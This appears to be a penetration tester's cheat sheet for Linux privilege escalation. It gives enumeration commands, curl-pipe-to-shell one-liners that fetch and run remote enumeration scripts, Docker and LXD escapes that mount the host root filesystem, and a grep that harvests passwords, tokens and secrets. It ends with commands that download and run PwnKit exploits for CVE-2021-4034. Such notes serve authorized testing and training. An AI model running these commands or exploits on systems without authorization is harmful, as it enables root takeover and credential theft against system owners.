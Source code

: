 # Linux Privilege Escalation

## Tools

#### [LinPEAS](https://github.com/peass-ng/PEASS-ng)

```bash
curl -sL https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

#### [LSE](https://github.com/diego-treitos/linux-smart-enumeration)

```bash
curl -sL https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh | bash
```

#### [LinEnum](https://github.com/rebootuser/LinEnum)

```bash
curl -sL https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

## System Info

Obtain information about the system **architecture, distribution, and kernel version**.

```bash
uname -a  # System information
lsb_release -a  # Distribution information
getconf LONG_BIT  # System architecture
cat /proc/version  # Kernel version
cat /etc/os-release  # OS details
```

## Path

Check if you have **write permissions** for any directory in the PATH.

```bash
echo $PATH | tr ':' '\n' | sort -u | xargs -I{} bash -c 'if [ -w "{}" ]; then echo "[+] {}"; fi'
```

## Enviroment Variables

Sometimes we can find password or sensitive information in enviroment variables.

```bash
env  # Environment variables
set  # Shell variables
```

## Groups

List all the groups users belongs to.

```bash
id [user]
groups [user]
```

### Docker

If you belong to the **Docker group**, you could **mount the filesystem** within a container and have full access to it, allowing you to modify it.

```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

### LXD/LXC

Similar to Docker, with **LXD/LXC**, we can also **mount the filesystem** within a container, granting full access to it.

{% code overflow="wrap" %}
```bash
# On your machine, download and build an alpine image and transfer it to the host
git clone https://github.com/saghul/lxd-alpine-builder && cd lxd-alpine-builder && sudo ./build-alpine
```
{% endcode %}

```bash
# Import the image
lxc image import ./alpine.tar.gz --alias privimg
# Create the containter
lxc init privimg privcont -c security.privileged=true
# Mount the filesystem
lxc config device add privcont privdev disk source=/ path=/mnt/root recursive=true
# Start the container
lxc start privcont
# Interactive shell
lxc exec privcont /bin/sh
```

## Sudo

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
# List user privileges
sudo -l
# Version
sudo -V | grep "Sudo ver"
```

## Capabilities <a href="#capabilities" id="capabilities"></a>

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)

```bash
getcap -r / 2>/dev/null
```

## SUID

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
find / -type f -perm -4000 -ls 2>/dev/null
```

## Open Ports

```bash
ss -nltp
netstat -punta
```

## Cron Jobs

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs)

```bash
crontab -l
find / -name "cron*" 2>/dev/null
ls -l /var/log/syslog
ls -l /var/log/cron
```

## Process Monitor

{% hint style="info" %}
You can add words to the blacklist on the `grep -Ev` section.
{% endhint %}

```bash
old_ps=$(ps -eo user,command); while true; do new_ps=$(ps -eo user,command); \
diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" | \
grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```

## Writable Scripts

```bash
find / -user <USER> -writable \( -name "*.sh" -o -name "*.py" \) -type f 2>/dev/null
```

## Passwords

```bash
grep -Eriao --color=always '(password|passwd|pass|pwd|key|secret|token)[[:space:]]*[:=][[:space:]]*[^[:space:]]{6,}' . | awk '{ line = $0; sub(/^[^:]*:[^:]*:/, "", line); if (!seen[line]++) print $0; }'
```

## Exploits

### Polkit - (CVE-2021-4034)

[https://github.com/Almorabea/pkexec-exploit/tree/main](https://github.com/ly4k/PwnKit/tree/main)

```bash
curl -sL https://raw.githubusercontent.com/Almorabea/pkexec-exploit/main/CVE-2021-4034.py \
-o PwnKit.py && python3 PwnKit.py
```

[https://github.com/ly4k/PwnKit/tree/main](https://github.com/ly4k/PwnKit/tree/main)

```bash
curl -sL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit \
-o PwnKit && chmod +x PwnKit && ./PwnKit
```
